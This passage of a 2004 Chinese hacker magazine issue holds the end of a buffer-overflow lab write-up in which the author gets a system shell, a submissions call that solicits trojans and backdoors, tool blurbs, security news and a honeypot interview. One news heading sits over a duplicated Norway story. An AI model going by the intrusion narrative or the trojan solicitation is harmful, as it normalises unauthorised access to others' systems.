text:005EEC17    mov     ecx, [ebp+0Ch]
text:005EEC1A    push    ecx
text:005EEC1D    push    offset aSkeyValues1 ; "SKEYValues"
text:005EEC20    push    eax
text:005EEC21    call    WritePrivateProfileStringA
text:005EEC26    pop     ebx
text:005EEC27    mov     esp, ebp
text:005EEC29    pop     ebp
text:005EEC2A    retn
```

分析完了汇编代码后，是不是觉得这个漏洞利用还算比较简单？嗯，唯一要注意的地方就是上述那个地址必须小心覆盖。其实我们不覆盖它也可以，但这样就得小心计算我们发送的用户名的大小。

我写的利用代码 Buffer 结构如下：


这样就能很好地绕过上述限制，不覆盖 `[ebp+0Ch]`。限于篇幅，添加组时的溢出在此就不贴代码和分析了，留给各位去挖掘吧，相信你能挖掘到更多好玩的东西，记得到时候一起玩哦！

（添加 FTP 用户时溢出的测试代码在光盘“杂志相关”中可以找到，已经编译好的程序也同样在那里 ^_^）

# 成功突破第十关

有溢出程序就好办了，直接溢出搞到了系统级别的 Shell 了，拿到桌面上的过关文件，OK，搞定！

下面给小编们开个玩笑，给他发个木马试试，看看系统里面有什么好东西，WTF 可是出名的好东西专家啊，一定会有收获的！嘿嘿，具体情况请看 2004 年第五期《黑客防线》介绍，那是一场多么激烈的战斗啊，可惜刚看到 WTF 系统中的 Hack 目录，刚开始传输数据，就被他们断网了！气死了，打开拉下来的东西一看：80exp.exe！哇！！！传说中的 80 溢出啊！赶快运行一下看看：just a joke！倒！本来是我想给他们说的 just a joke！没想到先被他们说了！郁闷ing……

# 神秘人亮相

本轮实验室空前成功，为让大家有自己练习的机会，我们的实验室将一直开放到 6 月 20 日。期间前九关朋友们可以继续过关并将过关录像发到攻防实验室专用信箱 gift@hacker.com.cn，我们在 7 期的时候将做最后总结并统一发出奖品。《黑客防线》攻防实验室第四轮将在 7 月 10 日开始，下一轮具体设置请看 7 期杂志——我们将引入硬件级的专业防火墙！让大家也过过专业级的入侵瘾！

感谢 Gale 对我们活动的大力支持，赠送《黑客防线》终身免费阅读，颁发万元笔记本一台、无线鼠标键盘一套以资奖励！

Gale，全名刘思宇。1996 年开始接触计算机，1998 年开始研究网络安全。长期混迹于各个 BBS，先后曾担任绿色兵团、网络技术、补天等 BBS 的版务。大学时学的是法律，后来却转行做了网络安全。2001 年加入瑞星公司，先后在网络部、系统集成事业部、信息安全实验室、研发部工作。负责对公司生产的防火墙、入侵检测系统、网络版防毒体系的技术性工作，以及为客户制作整体安全解决方案；国内外安全产品的测试、研究工作；对外提供网络安全加固服务、网络安全应急响应工作，包括撰写相关文档、制订安全服务流程、与客户联系以及项目实施工作。各种主流操作系统的完整安全配置清单的制作维护工作，对攻击防范技术的研究测试工作，各种主流操作系统的完整安全配置清单的制作维护工作，为公司的重大网络安全项目提供技术支持工作。研究方向为信息安全专业服务的整体框架，包括风险评估及管理、策略审查及制定、安全漏洞扫描、系统加固、应急处理、安全培训、整体方案设计等。


# 脚本小子的 Google 行

无聊！偶去找肉鸡，这肉鸡真难找啊！大吼一声如何找肉鸡？wtf 一旁嘀咕着说上 Google，耶！还没听过可以直接用 Google 找肉鸡的！赶紧看看，到 Google 输入：“我要肉鸡！”——结果真的返回了很多结果啊！仔细一看，95％的是这么写的：“禽流感后肉鸡市场充满变数”！狂晕ing！

不久刘流这位高手又叫我去搜索“跳板”这个词，我马上驱 IE 去 www.google.com 找！结果还是很失望，Google 告诉我：跳板（Springboard exercises），跳板是朝鲜族妇女最喜爱的运动项目之一。比赛时，两个人分别在一条五米长跳板的两端，其一端的人先跳起后，凭借下降的力量猛踩跳板，将另一端的人反弹起来，被弹起的人下落时又将对方弹起。强手弹起时有两三米高，还能做多种精彩动作！$#%@^%$#@

# Icefire 猛男之瞌睡篇

春眠不觉晓，处处蚊子咬；午间休息时，漏洞知多少？”icefire 又要睡午觉了！每次中午都有睡觉的习惯，不过最近实验室辛苦他了，也该休息休息了……

“那里湖面总是澄清，那里空气充满宁静，雪白明月照亮大地，藏着你不愿提起的回忆……”编辑部里突然浑厚的男中音响起，挺好听的，大家自然地跟着晃悠着，宁静的午休时间平添一份快乐……

“小子，有病啊！你把 VC6 装在肉鸡上做什么？想让肉鸡飞掉啊？！”“呵呵，挺猛的，比我在上面装 LC4 牛。”脚本小子一边看屏幕上的代码一边说。

“耶，刘老大，你也玩入侵了啊？”刘流正跑着 FreeBSD，有一搭没一搭地说：“我可是从来不讨论这个……”，晕！共享名长文件漏洞不是这样的，让我演示给你看……“刷！”编辑部全体同仁的眼睛全部转到了熟睡中的 icefire 上——感情这老兄刚才是说梦话啊！天！说梦话唱歌这个“漏洞”是第一次公布，而且唱得非常有感情，调子也非常不错。看来这个“漏洞”是比 ms04011 都还厉害的溢出！而且还有在肉鸡上装 VC 的人，强得一米啊！看来得赶紧叫醒他，脚本小子走上去就一本墨盒拍过去，“大梦谁先觉？平生我自知。草堂春睡足，窗外日迟迟，工作时间到了……耶！你们都望着我做什么？”“啊哈……哈哈哈……”“又有人捡到我了？怎么我就没这运气？”楼下卖茶叶蛋的小贩直犯嘀咕……

## 征稿启示

《黑客防线》倡导互动，推崇读者参与办刊，更希望本刊成为一个八仙过海、百家争鸣的大舞台，给每个读者都提供上台展示自己的机会，欢迎读者参与投稿，投稿信箱为：hack@hacker.com.cn，我们将在第一时间给您回复！

稿件内容要求：涉及到网络安全方面的攻击、防范技术是我们的主体内容。攻击方面关注最新的系统漏洞、脚本漏洞的实际利用方法、各种最新木马、后门程序的特色使用方法，非常欢迎自己开发的、有特别功能的后门、木马投稿。在入侵技术方面，灵活的入侵思维是最重要的，通过某种小技巧或者小技术入侵系统是最好的稿件。

在防范方面，针对最新的系统漏洞、第三方程序漏洞的深入防范技巧，各类脚本攻击技术的防范和各类安全防范类工具的特点应用是稿件的主体内容，另外，网络管理方面实用小技巧、小文章也可以投给我们，不足千字的，稿费按字计算。

投稿格式要求：来稿一律使用 Word 编排，将图片插入文章中适当的位置，并标明“图1”“图2”，文章代码过长请打包另存并做详细说明指向，文章格式工整、错别字少。

稿费标准：《黑客防线》实行优稿优酬的稿费评定标准，从技术新颖程度、入侵思维灵活度、事件影响程度、文笔幽默得当等方面综合考虑稿费，稿费标准在 80——200 元/千字，欢迎大家积极投稿！

## 工具：N-Stealth（Web 服务器扫描工具）

- 网址：http://www.nstalker.com/nstealth
- 类别：商业
- 平台：Windows

简介：N-Stealth 是一款商业化的 Web 服务器安全扫描软件。通常它比 whisker、nikto 等免费的 Web 扫描器升级得更为频繁。N-Stealth 开发商宣称的“超过 20,000 条的缺陷数据”和“每天新增大量的缺陷检查”是非常可疑的。我们也要注意到，在 nessus、ISS、Retina、SAINT 和 SARA 等所有常见的风险评估工具里已含有 Web 扫描组件，不过它们可能没有 N-Stealth 这样灵活易用和更新频繁。N-Stealth 不公开源代码。


## 工具：NBTScan（从 Windows 网络上收集 NetBIOS 信息）

- 网址：http://www.inetcat.org/software/nbtscan.html/
- 类别：开放源码
- 平台：Linux/BSD/Unix/Windows

简介：NBTScan 是一个用于扫描网络上 NetBIOS 名字信息的程序。这个程序对给出范围内的每一个地址发送 NetBIOS 状态查询，并且以易读的表格列出接收到的信息。对于每个响应的主机，它列出它的 IP 地址、NetBIOS 计算机名、登录用户名和 MAC 地址。


## 工具：GnuPG/PGP（保护你的文件和通信数据的先进加密程序）

- 网址：http://www.gnupg.org，http://www.pgp.com
- 类别：开放源码/商业
- 平台：Linux/BSD/Unix/Windows

简介：PGP 是由 Phil Zimmermann 开发的著名加密程序。它使用公钥加密算法和常规的加密技术相结合，能将加密后的文件安全地从一地传递到另一地，从而保护用户的数据免于窃听或其他的安全风险。GnuPG 是遵照 PGP 标准开发的开源程序，不同的是，GnuPG 是永远免费的，而 PGP 对于某些用途要收费。


## 工具：Firewalk（高级的 traceroute）

- 网址：http://www.packetfactory.net/projects/firewalk
- 类别：开放源码
- 平台：Linux/BSD/Unix

简介：Firewalk 使用类似 traceroute 的技术来分析 IP 包的响应，从而测定网关的访问控制列表表和绘制网络图。2002 年 10 月，这个一流的工具在原来的基础上进行了重新开发。需要注意的是，Firewalk 里面的大多数功能也能由 hping2 的 traceroute 选项来实现。


## 工具：XProbe2（主动操作系统指纹识别工具）

- 网址：http://www.sys-security.com/html/projects/X.html
- 类别：开放源码
- 平台：Linux/BSD/Unix

简介：XProbe 是一款测定远程主机操作系统类型的工具。它依靠与一个签名数据库的模糊匹配以及合理的推测来确定远程操作系统的类型，利用 ICMP 协议进行操作系统指纹识别是它的独到之处。


## 工具：SolarWinds Toolsets（大量的网络发现、监视、攻击工具）

- 网址：http://www.solarwinds.net
- 类别：商业
- 平台：Windows

简介：SolarWinds 包含大量适合系统管理员做特殊用途的工具。与安全相关的工具包括许多网络发现扫描器（network discovery scanner）和一个 SNMP 强力破解器。


# 针对最新入侵与攻击的防范研究

- 总编辑：孙彬
- 执行主编：郭聪辉
- 编辑部主任：吴田锋
- 编辑：刘流、蝴蝶、脚本小子、icefire、Socket、谭磊、白修罗、彭国军、刘志勇、草草虫
- 采编部主任：郭嘉
- 美编部：余钢城、李志华
- 技术部：徐生震
- 发行部：孙雁秋
- 邮购部：郭丽敏

- 光盘刊号：CN15-9201/TP
- 编辑：黑客防线编辑部
- 出版：家庭电脑世界杂志社
- 制作公司：北京地海森波网络技术公司
- 通信地址：北京中关村邮局008信箱
- 邮政编码：100080

- 技术支持电话：62141445-8031
- 投稿 E-mail：hacker@hacker.com.cn
- 问题解答 E-mail：answer@hacker.com.cn
- 网址：http://www.hacker.com.cn
- 发行部电话：62141446
- 发行部传真：62141360
- 邮购部电话：62141445-8011

- 常年法律顾问：北京风清律师事务所
- 王碧清律师
- 电话：13701229137
- 传真：(010)84510532
- E-mail：wangbiqing@163.com

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00元人民币（光盘＋说明书）

# 卷首语

# 业界动态

- ◇新闻动态 ................................ 2

# 名家专访

- 黑客入侵，蜜罐待候 ................................ 4
  - 访 Honeynet Project 创建者 Lance Spitzner

# 专题企划

- 构建 Win2003 堡垒主机 ................................ 6
  - Win2003 服务器网络组建、安全管理全攻略

# 漏洞攻击防范

- 命令行下 IPsec 也疯狂 ................................ 14

众所周知，网络攻击常常可能导致系统崩溃以及敏感数据的外泄，因此数据资源必须受到足够的保护，以防被监听、篡改或非法访问。怎样做到这一点呢？在 Windows 系统下通过 IPsec 就可以方便地实现，一方面，它可以保护 IP 数据包的内容，另一方面，又可通过 IPsec 筛选规则来帮助计算机免遭病毒及恶意事件带来的网络攻击。你知道命令行下如何来进行 IPsec 配置吗？请跟我来……

- 战争由踩点点燃，武装从 Banner 开始 ........................ 18
- ACL 扩展 FreeBSD 访问控制策略 ........................ 19

# 脚本攻击防范

- ASP.NET 中输入检查函数的轻松构造 ........................ 23

微软的 .NET 策略影响着网络中的每个人，大家或多或少对它都有一定的看法，当然，安全性自然是我们这个群体关注的热点。听很多朋友问过：ASP.NET 究竟在什么时候才能够如此良策？让入侵者无法逾越此半步？下文将向大家讲述 ASP.NET 如何在简单编写功能模块后就能防护很大范围的脚本攻击的方法，大家一起来看看我们未来的“入侵目标”究竟优秀到什么程度吧！

- 防数据库下载终极技术 ........................ 24
- 细心构造安全的 PHP 系统 ........................ 27

# 黑器攻击防范

- ROOTKIT 安装隐藏与侦查 …… 31
- Amity Ghostbusters 轻松保护你的系统 …… 32

# 网管之家

- 自己动手裁减 RedHat 9.0 …… 34

前段时间绿盟上某强人发帖询问最小的 RedHat 该如何裁减，一时间无数牛人发帖讨论。将 RedHat 的基本网络功能保留的情况下，如何打造出一个最精简而又能满足大部分实际使用的系统呢？或许很多网络管理员都关心这个问题，如果你正好也有这样的想法的话，请看此文。

- “诱敌深入”实战演习 …… 36

网络管理员和入侵者的较量从计算机开始的那天起就一直没有停止过，但很不幸的是往往都是入侵者占据优势的一方，因为漏洞总是先被公开然后才被修补，所以往往真正的入侵者总是快管理员一步入侵服务器，而管理员或许不会发现丝毫痕迹，怎么办呢？永远让入侵者逍遥法外？当然不是！我们该诱敌深入，设置好陷阱让入侵者中圈套！

- 快速掌握典型入侵日志分析 …… 41
- 用 Snort 巧妙检测 SQL 注入和跨站脚本攻击 …… 43
- Cisco PIX 防火墙软升级 …… 46

# 新手学溢出

- 免费才是我们的最爱 …… 50
  - Real Server 远程溢出漏洞分析
- 初探缓冲区溢出攻击 …… 54

# 网络工程师

- 细致打造个人精品 ASP 论坛 …… 55
- 巧架个人 BT 服务器 …… 58

忽如一夜春风来，千树万树梨花开，BT 的流行比之当年的江湖、传奇等的流行有过之而无不及。现在我们常说的话是：“今天你 BT 了吗？”，假如你还不知道 BT 是什么，那似乎也证明你已经到了归隐的时候了，当然这里更没有幸灾乐祸之心。“菜鸟级”的小虾们，不急，当你阅读完这篇文章之后，就再也没有人敢说你菜了，因为你将学会架设一个私人的 BT 服务器，而且，就把你的个人电脑、ADSL 利用起来就 OK！更关键的是，这 BT 服务器是安全的！

# 防范技巧

- 轻松识破文件、木马捆绑 …… 60
- CMD 下加密 NTFS 目录文件夹和文件 …… 60
- 一台电脑两个 IP …… 60
- 利用 netsh 命令实现 IP 地址快速切换 …… 60

# 安全问答

定价：35元

# 内容提要

《黑客防线2004 精华集萃本》是在《黑客防线》杂志攻、防两册明确定位后推出的第一个精华本，汇总了从《黑客防线》总第25期到总第36期的精华内容，并且增加新的专题内容融合而成。全书按照攻防关系分为攻册和防册2本，内容通俗易懂，图文并茂，非常便于读者阅读。在栏目划分上，选取了《黑客防线》最受读者欢迎的15个栏目，特别是漏洞攻击、脚本攻击、黑兵器库和漏洞攻击防范、脚本攻击防范、黑器攻击防范6个栏目一一呼应，攻防分明，非常适合读者学习和研究。

本书附赠2张光盘。光盘内容包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文献、最新补丁，以及150个全程攻防录像演示。本书适合网络管理人员、网络爱好者和网络安全技术人员阅读。

| 名称 | 规格 | 价格 |
|---|---|---|
| 黑客防线 11-39 期 | 1CD | 10.00元/期 |
| 黑客防线精华本 2001 | 2CD | 29.00元/本 |
| 中国黑客内幕（6折） | 1CD | 15.00元/本 |
| 黑客防线增刊 2002 | 1CD | 19.80元/本 |
| 黑客攻防 One To One | 1CD | 19.80元/本 |
| 黑客编程 Follow Me | 1CD | 23.80元/本 |
| 黑客攻击技术揭密 | 1CD | 23.80元/本 |

《黑客防线》创刊号到《黑客防线》10期以前的杂志邮购请到我们网站：http://www.hacker.com.cn/book.htm 查询库存数量。

汇款地址：北京市中关村邮局008信箱  
邮政编码：100080  
收款人：《黑客防线》邮购部  
热线电话：(010)62141446、62141445-8011  
E-mail：yougoubu@hacker.com.cn

## 《黑客防线》2004年开篇再度回报读者

5000套无删减第4季度合订本隆重上市

430页内容＋3张光盘，

超值惊喜价26.00元。

# 限量发售，欲购从速！

## 2000年～2004年《黑客防线》完全合订本

总第1期～总第37期

超值套价38.00元＝1套送1本

- 不可错过的珍贵资料，不可再生，量有限，欲购从速
- 37期无删减合订本电子文件
- 37期全部文章涉及代码
- 37期文章含1480万文字
- 1000多名作者的1000多篇技术文章

全国各地图书市场、报刊零售点热卖！

邮购地址：北京中关村邮局008信箱　邮购部　邮编：100080

电话：010-62141446　传真：010-62141360

无须邮资，另加挂号费2元

# 【本月视点】

## 不安分的六月

不知不觉中，又到6月，每年的六月似乎都夹杂着无数人或喜或悲的惊叹：天气逐渐转暖，人们的自由支配时间也渐渐变得更长，网络的天空里更多几分放纵和纷乱，很早前想入侵的服务器现在有时间再看看了；加上高考调整后的6月，更将凝聚着无数学子们寒窗十二载的精华，成败系于一线，危如累卵，无聊、焦躁时在网络上的发泄又将是新的谈论话题——而6月本就多发的漏洞、病毒无疑也是安全事件的焦点所在。

国内的安全事件焦点无疑聚集在了最新的几个安全漏洞上——这一次，Apple QuickTime 也唱了回主角，竟然出现了远程整数溢出漏洞，又有无数网络上的计算机将接受漏洞的考验，而我们，唯一能做的，就是将大家那原本就比较薄弱的安全神经再一次绷紧：小心了，漏洞就在眼前。

DVBBS7 的漏洞也算是赶了个热闹，一直以安全著称的脚本系统又被发现漏洞，而且，这次是致命的！我们除了及时给大家提供漏洞相关分析资料外，能做得非常有限，只能眼睁睁地看着一个又一个论坛倒下。毕竟，并不是每个身处网络的朋友都在看我们黑防，都在关注着最新的攻击和防御技术……我们，痛并努力着！

最新的漏洞公告和网络入侵情况似乎都在为我们昭示着同一个方向：第三方程序的漏洞已有逐渐取代系统漏洞而掌控网络安全事件的趋势，虽然它们构成严重病毒、大规模入侵事件的可能性不高，但，真正用在网络入侵中的神秘技术，往往是这种不被人注意的细节地方，古人所说的“千里之堤，溃于蚁穴”的道理又一次在现实网络中得到证明。

提到病毒，大家或许对5月的震荡波都还记忆犹新吧？那是一场和冲击波一样疯狂的战争：网络上无数服务器被病毒感染，无数无辜的个人计算机也难逃劫难，病毒不断发出的扫描数据包充斥着网络带宽，不停被感染的新的“宿主”又在加入，网络堵塞、系统不稳定让无数人叫苦连天，工作、学习也因此而更添一份烦躁。与此同时，面对有可能是今年最大的一场病毒灾害的杀毒软件厂商们，密切地关注着病毒的传播，在五一短短的七天内，震荡波繁衍出四种厉害的变体，无疑预示着新的危险漏洞的成功利用。专杀补丁、漏洞补丁、病毒防火墙一时间成了网络上下载量最大的热点，而这一切，对安全界的朋友们来说，只是一个简单的 MS04-011 漏洞……

早在4月中旬，微软发布的漏洞补丁包中就包含了对 Lsass 服务远程溢出漏洞的补丁，而国外安全界也在微软漏洞公告后的同一天发布了漏洞利用程序。令人惊奇的是，国内无数服务器管理员在经历过一次冲击波洗礼后，竟然还是没有养成防患于未然的安全意识，最终导致了五一出现的病毒肆虐的情况——是怪病毒太厉害？还是忽略安全的人太多？无从考证了。我们希望的，仅仅是下一个病毒爆发的时候，听到更多洪亮的声音说：“没问题，我使用了最新的安全防范技术，我的系统是最新最安全的！”

# 新闻动态

### “震荡波”18岁嫌犯被捕

德国警方逮捕的年仅18岁的“震荡波”电脑病毒嫌犯已经向警方承认是他编写的“震荡波”电脑病毒，不过当局还不清楚目前网上流行的所有版本“震荡波”病毒是不是全部出自这名嫌犯之手。当地警方发言人 Frank Federau 说：“他已经招供，微软的专家目前已经证实他是这个病毒的炮制者。”

当地时间周三，几名来自下萨克森州的匿名者向微软取得了联系，并向微软咨询如果他们协助追捕“震荡波”的作者是否能够获得赏金。这些匿名者联系微软事出有因，此前微软曾经就追捕冲击波和 Mydoom 病毒的作者分别悬赏25万美元。之后的事实证明，正是因为这些举报者的大力协助德国警方才能在很短的时间内抓到嫌犯。

目前还没有机构对“震荡波”病毒所带来的经济损失进行评估，但已经有很多知名机构报告受到了该病毒的侵袭，其中包括德国的德意志邮局、英国的海岸警卫队以及高盛投资银行。

## Sasser、Netsky 是同一黑客所为

在对 Netsky.ac 和 Sasser 进行分析后，赛门铁克公司研究人员几乎可以肯定这两个蠕虫是同一黑客所为。赛门铁克响应组高级工程主管 Alfred Huger 说，这两个蠕虫是同一人编写的可能性非常大，如果不是同一人或组织编写的，那么他们很可能在共享源代码。

近日出现的 Netsky.ac 包含对4月30日出现的 Sasser 蠕虫声明负责的文本，而且赛门铁克研究人员发现有3点可以说明这两个蠕虫是同一人所为：Netsky.ac 含有 Sasser 源代码片断；Netsky.ac 和 Sasser 中隐藏的 FTP 服务器代码几乎完全相同；Netsky.ac 和 Sasser 中的其他代码共享同样的、较少使用的功能调用和注册表设置例程。

## 网页仿冒欺诈活动大幅增加

在过去一年中电脑黑客利用网页仿冒手段进行网上欺诈活动大幅增加，使美国银行和信用卡发行商直接蒙受约12亿美元的经济损失。网页仿冒是黑客冒名向网民发出的一种骗取网民个人资料、信用卡账号和密码的电子邮件，这种邮件通常带有仿冒的某公司（如银行、信用卡发行商和网上零售商）的网页链接，以需要更新或核实用户资料等各种借口引诱网民上当。

调查发现，网页仿冒袭击成功率很高，约有19%，即1100万收到网页仿冒电子邮件的美国网民点击了邮件中的网页链接地址，而且还约有3%，即178万网民将自己的个人或财务资料告诉了黑客，落入欺诈陷阱。

## 震荡波袭击日本

近日，日本专业安全公司统计数字表明：国内已有127家公司的581台计算机感染“震荡波”病毒，现在这些公司已经采取杀毒措施。为防止“震荡波”病毒肆虐，“网络联盟”及其他日本计算机杀毒软件开发公司呼吁用户及时修补视窗平台的漏洞，升级杀毒软件，以抵御病毒侵袭。

“震荡波”病毒利用微软视窗平台安全漏洞在因特网上传播，10分钟内就能使没有防范措施的计算机感染，造成机器运行缓慢、网络堵塞，并让系统不停地进行倒计时重启，其破坏程度有可能超过“冲击波”病毒。

## 计算机安全展移师上海

目前从公安部公共信息网络安全监察局获悉，“2004年中国国际计算机信息系统安全展览会暨高层论坛”将于今年11月在上海国际会议中心举办，这是计算机安全展第一次在北京以外的地方举办。

计算机安全展是我国信息安全领域的权威展会之一，以往只在北京举办。今年初，有关部门决定，从今年起隔年轮流在上海和北京举办。公安部公共信息网络安全监察局副局长顾建国表示，在上海举办展会，是因为上海作为我国重要的经济与金融中心，在科技创新、产业升级等方面发挥示范、辐射作用。随着华东、华南地区电子商务、电子政务的广泛应用，对信息安全产品产生了巨大的需求，具有成功举办信息安全展及论坛的良好基础。展会承办方、公安部第三研究所所长严明表示，与展会同时举办的信息安全高层论坛，将是一个具有国际先进水平的论坛，微软、趋势、赛门铁克等国际领先的信息安全企业将来这里介绍其最新经验。

## 微软反垃圾邮件再出新举措：正常邮件有保障

微软的 Hotmail 及 MSN 电子邮箱服务深受垃圾邮件之害，用户抱怨之声不绝于耳，令微软不堪其苦。为解决这一问题，微软近日与电子邮件服务企业 IronPort 系统公司签订合约，希望通过后者提供的工具阻止垃圾邮件泛滥。

据介绍，针对垃圾电子邮件泛滥的情况，许多用户使用了电子邮箱服务提供商提供的垃圾邮件过滤功能，但是在这一过程中一些正常的电子邮件往往也被过滤掉了。而 IronPort 系统公司提供的电子邮件服务，其宗旨是要帮助那些合法企业所寄发的电子邮件能够正常到达用户的电子信箱。

## 挪威政府网站被篡改为同性恋网站

近日，挪威一地方政府主页竟被恶意篡改为色情链接，许多访问者对此深恶痛绝。5月，该地方政府网站出现恶意攻击，访问者键入该政府网站域名原本可以浏览该地区的信息报道，然而，现在却被一色情图片站点所篡改。挪威《卑尔根报》称，该政府网站主管表示将尽快解决恢复网站正常运行。

挪威高中老师特尔贾－斯文德森曾建立一个网站，他说：“自己的网站在几年前也出现被该同性恋色情网站恶意攻击事件。”在此之前，该政府网站主要发布地区产业发展信息。

## 思科发出软件漏洞警报

思科公司对影响几乎所有思科产品的两个严重安全漏洞发出警报。恶意黑客有可能利用这两个漏洞实施拒绝服务攻击，导致思科产品突然重启或放弃同其他设备的活动连接。

思科发布了3个安全通报，披露了 TCP 协议中的一个严重漏洞对思科产品的影响和思科 IOS 操作系统中的一个影响简单邮件传输协议（SMTP）的严重漏洞。

在第三个安全通报中，思科弥补了某些 IOS 版本处理 SMTP 流量存在的一个漏洞。这个软件漏洞可能导致运行 IOS 的思科设备的存储器崩溃，造成设备无故重启。

## 英国首次速捕诈骗银行账户者

英国警方首次速捕一位涉嫌互联网身份盗用者，这一问题正困扰迅速成长的网上银行业务。权威人士表示，这名21岁男性被指控试图盗取英国互联网银行 Smile 的客户银行资料。过去一年中，一些狡诈的程序员通过伪造电子邮件和网站等手段诱骗互联网用户透露自己的信用卡号码或者他们的银行资料等。

Smile 发言人表示，这家银行50万客户中有少数人向该男性提供的虚假网站提供了自己的银行信息，他同时认为尚未造成任何客户的财产损失。过去一年中，世界最大的几家网络银行，如 Barclays、Lloyds TSB 和 NatWest，都受到了此类互联网欺诈的冲击。eBay 在线支付部门 Paypal 则是另外一个攻击目标。

据网络安全专家介绍，过去三个月中，银行信息诈骗手段已经出现新方式。诈骗者首先控制一个真正的官方网站，然后诱导客户输入自己的银行信息，但将这些信息存储到诈骗者控制的地点。

## 法国《黑客》将向全世界发行

近日，挪威一地方政府主页竟被恶意篡改为色情链接，许多访问者对此深恶痛绝。5月，该地方政府网站出现恶意攻击，访问者键入该政府网站域名原本可以浏览该地区的信息报道，然而，现在却被一色情图片站点所篡改。挪威《卑尔根报》称，该政府网站主管表示将尽快解决恢复网站正常运行。

挪威高中老师特尔贾－斯文德森曾建立一个网站，他说：“自己的网站在几年前也出现被该同性恋色情网站恶意攻击事件。”在此之前，该政府网站主要发布地区产业发展信息。

## 苹果受抨击：低估漏洞严重性

安全研究人员再一次对苹果计算机没有在安全公告中说明安全漏洞的严重性提出了批评。苹果在5月发布了影响 Mac OS X 操作系统各种组件的五个安全漏洞的安全公告。这些安全漏洞中最严重的威胁是在苹果文件共享系统中存在缓存溢出安全漏洞，能够让远程攻击者控制用户的系统。

但是，苹果把这个安全漏洞解释为改善长口令处理而进行的修改。而大多数安全公司一般都把能够被远程利用的软件安全漏洞分类为“严重的”安全漏洞。

eEye 称，可以制作出一种电影文件，当用户打开这个文件时，就可以在用户计算机上运行恶意代码。eEye 首席黑客官 Marc Maiffret 说，我们对苹果公司的人说，如果你们不能执行这个代码就告诉我们，我们可以为你们演示这个问题。

# 黑客入侵，蜜罐待候
## ——访 Honeynet Project 创建者 Lance Spitzner

当前黑客的活跃性和攻击目标的广泛性令人感到震惊，他们攻击能寻找到的任何系统，而不管有没有什么利用价值，这说明在因特网上的任何一个系统、任何一台计算机都随时可能成为黑客攻击的目标。从另一方面来说，任何一个人在全球的任何一个地方，只要拥有高超的计算机技术并具备上网条件，很容易就可成为一名卓越的黑客。现在的很多黑客工具的功能也越来越强大了，扫描、攻击、控制等功能只使用一个黑客工具就可以全部实现，黑客发现和攻击那些安全性不高的系统的可能性也就越来越大。

传统的做法是尽量保护网络安全，一旦发现受到侵犯，就立刻采取防范措施。不过，在互联网普及的今天，这种做法已经无法保证网络安全。而成立于1999年4月的 Honeynet Project 将彻底改变这种现象，他们的目标就是对于黑客的进攻不是像传统的被动一样，而是采取主动应付的策略，在大型网络环境中采取简单有效的，并且结合计算机犯罪取证的形式来抵御黑客。

今天我们要介绍的就是 Honeynet Project 的创建者 Lance Spitzner，他还曾任职于 BLACKHAT、五角大楼、美国联邦调查局，现在是 Sun 公司 GESS 安全组的安全构建师，参加过如 SANS、Blackhat、FIRST 的安全会议，同时还是 Honeypot Technologies Inc（HTI）公司的创建者。

Lance Spitzner 毕业于伊利诺伊斯大学历史系，喜欢研究中世纪的战争历史，这对他以后从事网络安全的事业也大有裨益。业余时间他喜欢潜水，恐怕这也同他喜欢探索未知领域有所帮助吧。

1992年，Lance Spitzner 参加了美国陆军，并成为了坦克指挥。他从小就有一个挑战极限的梦想，是军队给了他这个接触枪和机械化战争的机会。1996年退役后的他有意从事信息技术这个专业，但阴差阳错地却取得了 MBA 的学位。虽然他并不喜欢财经、会计、市场营销、管理有关的一些东西——再一次的阴差阳错让他开始了安全之旅。Lance Spitzner 谈起那段经历，说道：“我刚开始是在一家咨询公司工作，他们都忙于账务方面的事情。有一次，经理问我是否愿意去接受防火墙的学习，我当时欣喜若狂。随之而来的就是艰苦的学习和一些安全界朋友的帮助。有很多人帮助过我，对我早期最有帮助的就是 Marty Roesch（Snort 的作者），再后来我对大量被黑客攻击的计算机都做了分析，所以催生了我对蜜罐技术的探索。”

曾服了7年兵役的 Lance Spitzner，在陆军担任坦克指挥的他对防守体系有着自己的见解。他认为阻击敌人的最好办法就是设置一个障碍物来减缓敌人的进攻。而蜜罐就是一个非常有力的“武器”！作为“蜜罐”项目创办人，近年来他在美国积极推广这个防范黑客的方法。他曾受邀到美国联邦调查局、国防部、西点军校介绍“蜜罐”概念，帮助美国政府设计监视黑客的网络系统。

Lance Spitzner 平时工作中使用 Solaris 和 Linux（Red Hat）。对于安全工具，他认为 nmap、snort、hping2 可以在互联网上让你学到很多。另外，他认为使用 Nessus 扫描器也是一个不错的选择，因为它可以自定义，并且输出的漏洞报告简单易懂。

1999年4月，“Honeynet Project”由30名安全人员创建，他们来自加拿大、以色列、荷兰、德国、澳大利亚、美国的一些安全组织。他们中有像著名安全公司 Foundstone 的 CEO 和 CTO、著名安全站点 SecurityFocus.com 的 CTO，以至于开放源代码安全软件 NMAP 的作者 Fyodor 都给予这个工程无私的帮助，一些“白帽子”黑客也给予无私的帮助。（“白帽子”黑客的动机是对知识方面的好奇，而不是出于犯罪意图或恶意，他们可以自由使用该计划的研究成果。）

“Honeynet Project”的研究成员并没有受雇于任何安全机构，所有关于黑客问题的研究都是自发的，因此，其研究成果也是真实而且有说服力的。已经有葡萄牙、英国、法国、意大利、爱尔兰、巴基斯坦、巴西、墨西哥等国家加入了这个组织。“Honeynet Project”是由很多模拟真实计算机网络的、称为“蜜罐”的网络“陷阱”构成，主要目的是引诱黑客，并研究他们在日常生活中的行为举止。目前，已经成功地诱使许多黑客白白浪费了大量精力。

这个名为“蜜罐”（Honeypots）的软件仿造借鉴反间谍方法，利用设计假系统，将黑客诱进模拟网络，让他们在那里为所欲为，迷惑他们，保护真正网络的安全。

“万事开头难”，为了获取有关黑客的类似情报，Lance Spitzner 在1999年3月于家中第一次创建了一个“Honeynet Project”。这个诱饵网络在互联网上存在了不到15分钟就被黑客攻破了！几乎每天都有恶意黑客对易受攻击的系统和安全漏洞等进行超过十几次的攻击性扫描！

Lance Spitzner 指出，“蜜罐”是一种工具，而不是解决方案。它很灵活，可以以不同方式与形状出现。为了验证 Honeynet Project 的作用，他还举行过追查黑客的“Forensic Challenge”竞赛。竞赛方法如下：首先，将事先不设置安全防护措施的计算机连入因特网，将真正的黑客吸引到该计算机上来，让他到处进行破坏之后，由参加竞赛者进行“侦察”。没有想到竞赛开始后，果真有一名黑客侵入了这台计算机，并在计算机内部进行了约30分钟的恣意破坏！但活动参与者还是抓到了他，由此获得了很多新的思路。

